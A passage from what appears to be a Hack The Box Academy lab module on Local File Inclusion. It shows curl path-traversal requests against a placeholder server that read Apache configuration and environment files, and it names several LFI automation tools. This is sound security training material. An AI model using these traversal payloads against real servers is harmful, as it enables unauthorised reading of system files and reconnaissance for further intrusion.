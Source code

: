 ```shell-session
alakin2504@htb[/htb]$ curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf

...SNIP...
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
...SNIP...
```

As we can see, we do get the default webroot path and the log path. However, in this case, the log path is using a global apache variable (`APACHE_LOG_DIR`), which are found in another file we saw above, which is (`/etc/apache2/envvars`), and we can read it to find the variable values:

  Automated Scanning

```shell-session
alakin2504@htb[/htb]$ curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/envvars

...SNIP...
export APACHE_RUN_USER=www-data
export APACHE_RUN_GROUP=www-data
# temporary state file location. This might be changed to /run in Wheezy+1
export APACHE_PID_FILE=/var/run/apache2$SUFFIX/apache2.pid
export APACHE_RUN_DIR=/var/run/apache2$SUFFIX
export APACHE_LOCK_DIR=/var/lock/apache2$SUFFIX
# Only /var/log/apache2 is handled by /etc/logrotate.d/apache2.
export APACHE_LOG_DIR=/var/log/apache2$SUFFIX
...SNIP...
```

As we can see, the (`APACHE_LOG_DIR`) variable is set to (`/var/log/apache2`), and the previous configuration told us that the log files are `/access.log` and `/error.log`, which have accessed in the previous section.

**Note:** Of course, we can simply use a wordlist to find the logs, as multiple wordlists we used in this sections did show the log location. But this exercises shows us how we can manually go through identified files, and then use the information we find to further identify more files and important information. This is quite similar to when we read different file sources in the `PHP filters` section, and such efforts may reveal previously unknown information about the web application, which we can use to further exploit it.

---

## LFI Tools

Finally, we can utilize a number of LFI tools to automate much of the process we have been learning, which may save time in some cases, but may also miss many vulnerabilities and files we may otherwise identify through manual testing. The most common LFI tools are [LFISuite](https://github.com/D35m0nd142/LFISuite), [LFiFreak](https://github.com/OsandaMalith/LFiFreak), and [liffy](https://github.com/mzfr/liffy). We can also search GitHub for various other LFI tools and scripts, but in general, most tools perform the same tasks, with varying levels of success and accuracy.

Unfortunately, most of these tools are not maintained and rely on the outdated `python2`, so using them may not be a long term solution. Try downloading any of the above tools and test them on any of the exercises we've used in this module to see their level of accuracy.